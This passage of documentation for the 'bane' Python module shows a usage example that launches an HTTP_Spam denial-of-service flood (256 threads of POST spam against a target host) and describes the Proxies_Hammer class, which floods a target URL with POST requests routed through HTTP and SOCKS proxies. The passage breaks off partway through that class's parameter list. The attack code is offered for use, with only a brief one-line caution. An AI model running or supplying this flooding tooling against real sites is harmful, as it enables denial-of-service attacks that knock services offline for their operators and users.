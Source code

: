 <pre><code>
from bane.ddos import HTTP_Spam

#Create an instance of HTTP_Spam
http_spam = HTTP_Spam(
    "example.com",
    p=80,
    cookie="CustomCookie",
    user_agents=["UserAgent1", "UserAgent2"],
    method=3,
    threads_daemon=True,
    paths=["/"],
    threads=256,
    post_min=5,
    post_max=10,
    post_field_min=50,
    post_field_max=100,
    timeout=5,
    round_min=1000,
    round_max=10000,
    interval=0.001,
    duration=60,
    tor=False,
    ssl_on=False,
    logs=True
)

#HTTP spamming attack is performed in the background
#Monitor the attack's progress as needed

#To stop the attack, you can set http_spam.stop = True

#Be cautious and responsible when using such attack techniques in a real environment.
</code></pre>

<h1>Proxies_Hammer Class</h1>

<h2>Class Overview</h2>
<p>The <code>Proxies_Hammer</code> class is part of the "bane" module and is used for launching low-rate HTTP POST requests through a list of proxy servers to a target URL.</p>

<h2>Class Constructor</h2>
<pre><code>class Proxies_Hammer(DDoS_Class)
</code></pre>
<p>This constructor initializes an instance of the <code>Proxies_Hammer</code> class with the following parameters:</p>

<ul>
    <li><code>u</code> (str): The target URL for the POST requests.</li>
    <li><code>p</code> (int): Port number of the target server (default is 80).</li>
    <li><code>cookie</code> (str): Custom cookies to include in requests.</li>
    <li><code>user_agents</code> (list): List of custom User-Agent headers for requests (default is Common_Variables.user_agents_list).</li>
    <li><code>threads_daemon</code> (bool): Set threads as daemons (default is True).</li>
    <li><code>scraping_timeout</code> (int): Timeout for proxy scraping in seconds (default is 15).</li>
    <li><code>max_content</code> (int): Maximum content length for POST requests (default is 15000).</li>
    <li><code>min_content</code> (int): Minimum content length for POST requests (default is 10000).</li>
    <li><code>threads</code> (int): Number of threads for the attack (default is 700).</li>
    <li><code>timeout</code> (int): Request timeout in seconds (default is 5).</li>
    <li><code>paths</code> (list): List of URL paths to target (default is ["/"]).</li>
    <li><code>http_proxies</code> (list): List of HTTP proxies to use.</li>
    <li><code>socks4_proxies</code> (list): List of SOCKS4 proxies to use.</li>
    <li><code>socks5_proxies</code> (list): List of SOCKS5 proxies to use.</li>
    <li><code>duration</code> (int): Duration of the attack in seconds (default is 60).</li>